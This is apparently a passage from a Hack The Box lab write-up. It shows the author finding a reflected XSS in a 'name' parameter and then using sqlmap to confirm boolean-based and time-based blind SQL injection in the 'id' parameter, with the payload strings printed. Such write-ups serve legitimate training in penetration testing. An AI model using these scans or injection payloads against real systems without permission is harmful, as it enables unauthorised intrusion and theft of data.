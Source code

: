 There's nothing at first glance that seems dynamic other than the `id` parameter used to include pages. After manually trying other parameters, I find that the `name` parameter is used by the page to change the name displayed and is vulnerable to XSS. It's a reflected XSS so I don't see how this would be useful here. Moving on.

### Finding the first SQL injection

![](/assets/images/htb-writeup-unattended/xss.png)

Next, I run `sqlmap` on the page to see if I can find a SQL injection in the `id` parameter. I find that the database backend is MySQL and that the page contains two SQL injections: a boolean-based blind and time-based boolean injection. Originally when I first ran sqlmap with `id=25` it only found that time-based blind injection but when I specified the `id=587` it found both. I think this happens because the default page returned by index.php is the one from id 25, so the boolean-blind injection can only work with the other two pages.

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -p id
[...]
sqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=587' AND 5533=5533 AND 'BkIC'='BkIC

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=587' AND SLEEP(5) AND 'kUKZ'='kUKZ
---
[00:51:04] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
```
